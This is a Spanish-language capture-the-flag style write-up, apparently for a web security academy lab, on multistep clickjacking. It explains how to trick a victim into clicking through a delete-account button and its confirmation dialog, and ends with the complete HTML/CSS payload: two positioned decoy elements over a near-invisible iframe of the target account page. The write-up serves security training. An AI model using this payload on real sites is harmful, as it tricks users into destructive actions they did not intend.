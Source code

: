En este laboratorio se presenta una defensa adicional contra el clickjacking: además de un token CSRF, el botón de eliminación de cuenta incluye una ventana de confirmación. Para explotar esta funcionalidad, el ataque debe engañar a la víctima para que realice dos clics consecutivos en ubicaciones específicas: uno para activar el botón de “Eliminar cuenta” y otro para confirmar la acción.

Para lograrlo, se estructura una página con dos capas señuelo (Click me first y Click me next), alineadas con los botones reales del formulario y del cuadro de confirmación, respectivamente. El iframe que contiene la página objetivo se vuelve prácticamente invisible gracias al uso de opacidad muy baja.

Una vez que la víctima interactúa con los dos elementos señuelo, el proceso completo de eliminación de cuenta se ejecuta con éxito, incluyendo la confirmación del diálogo. Este ataque demuestra cómo el clickjacking puede seguir siendo efectivo incluso en flujos de múltiples pasos si no se implementan defensas robustas adicionales como ‘**frame-ancestors**‘ o ‘**same-origin**‘ en ‘**Content-Security-Policy**‘.

Solucion
Aqui es donde se va ver el Click me First y el Click me Second
![Pasted image 20250724235114.png](imagenes/Pasted image 20250724235114.png)
e aqui el payload 

<style>
	iframe {
        position:relative;
        width:500px;
        height: 600px;
        opacity: 0.001;
    }
    .firstClick {
        position:absolute;
        top: 497px;
        left: 80px;
    }
   .secondClick{
        position:absolute;
        top: 290px;
        left: 200px;
    }
</style>

<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a830098033a67dd8079033200b9003e.web-security-academy.net/my-account"></iframe>
